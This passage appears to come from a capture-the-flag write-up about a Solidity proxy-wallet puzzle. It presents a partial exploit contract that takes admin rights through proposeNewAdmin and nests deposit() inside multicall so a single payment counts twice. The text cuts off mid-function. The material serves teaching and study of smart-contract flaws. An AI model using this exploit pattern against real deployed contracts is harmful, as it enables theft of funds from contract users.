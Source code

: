   <img src="img/img3.png" />
</p>

Now let's write our exploit contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IProxy{
    function proposeNewAdmin(address) external;
    function approveNewAdmin(address) external ;
    function setMaxBalance(uint256) external;
    function addToWhitelist(address) external;
    function deposit() external payable ;
    function execute(address, uint256, bytes calldata) external payable;
    function multicall(bytes[] calldata) external payable;
    function admin()external view returns(address);
}



contract ExploitPuzzleProxy{
    IProxy proxy;
    address player;
    constructor(address _proxy){
        proxy=IProxy(_proxy);
        player=msg.sender;
    }

    function Exploit()public payable{
        proxy.proposeNewAdmin(address(this));
        proxy.addToWhitelist(address(this));

        bytes[] memory main_data=new bytes[](2);
        bytes[] memory second_deposit=new bytes[](1);
        second_deposit[0]=abi.encodeWithSignature("deposit()");

        main_data[0]=second_deposit[0];
        main_data[1]=abi.encodeWithSignature("multicall(bytes[])",second_deposit);

```